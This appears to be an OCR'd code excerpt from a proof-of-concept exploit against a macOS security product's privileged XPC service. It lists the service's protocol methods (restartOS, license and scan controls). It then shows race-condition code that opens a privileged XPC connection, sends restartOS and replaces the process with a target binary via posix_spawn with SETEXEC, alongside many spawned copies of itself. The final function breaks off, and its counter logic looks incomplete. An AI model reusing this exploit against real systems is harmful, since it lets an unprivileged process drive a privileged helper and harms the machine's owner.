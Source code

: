 ```objectivec
- (void)buildPurchaseSiteURLWithCompletion:(void (^)(long long, NSString *))arg1;
- (void)triggerLicenseRelatedChecks;
- (void)buildRenewalLinkWith:(NSUUID *)arg1 completion:(void (^)(long long, NSString *))arg2;
- (void)cancelTrialWith:(NSUUID *)arg1 completion:(void (^)(long long))arg2;
- (void)startTrialWith:(NSUUID *)arg1 completion:(void (^)(long long))arg2;
- (void)unredeemLicenseKeyWith:(NSUUID *)arg1 completion:(void (^)(long long))arg2;
- (void)applyLicenseWith:(NSUUID *)arg1 key:(NSString *)arg2 completion:(void (^)(long long))arg3;
- (void)controlProtectionWithRawFeatures:(long long)arg1 rawOperation:(long long)arg2;
- (void)restartOS;
- (void)resumeScanJob;
- (void)pauseScanJob;
- (void)stopScanJob;
- (void)startScanJob;
- (void)disposeOperationBy:(NSUUID *)arg1;
- (void)subscribeTo:(long long)arg1;
- (void)pingWithTag:(NSUUID *)arg1 completion:(void (^)(NSUUID *, long long))arg2;
@end

void child() {

// send the XPC messages
NSXPCInterface *remoteInterface = [NSXPCInterface interfaceWithProtocol:@protocol(ProtectionService)];
NSXPCConnection *xpcConnection = [[NSXPCConnection alloc] initWithMachServiceName:MACH_SERVICE options:NSXPCConnectionPrivileged];
xpcConnection.remoteObjectInterface = remoteInterface;

[xpcConnection resume];
[xpcConnection.remoteObjectProxy restartOS];

char target_binary[] = BINARY;
char *target_argv[] = {target_binary, NULL};
posix_spawnattr_t attr;
posix_spawnattr_init(&attr);
short flags;
posix_spawnattr_getflags(&attr, &flags);
flags |= (POSIX_SPAWN_SETEXEC | POSIX_SPAWN_START_SUSPENDED);
posix_spawnattr_setflags(&attr, flags);
posix_spawn(NULL, target_binary, NULL, &attr, target_argv, environ);
}

bool create_nstasks() {

NSString *exec = [[NSBundle mainBundle] executablePath];
NSTask *processes[RACE_COUNT];

for (int i = 0; i < RACE_COUNT; i++) {
processes[i] = [NSTask launchedTaskWithLaunchPath:exec arguments:@[ @"imanstask" ]];
}

int i = 0;
struct timespec ts = {
.tv_sec = 0,
.tv_nsec = 500 * 1000000,
};

nanosleep(&ts, NULL);
if (++i > 4) {
for (int i = 0; i < RACE_COUNT; i++) {
[processes[i] terminate];
}
return false;
}
```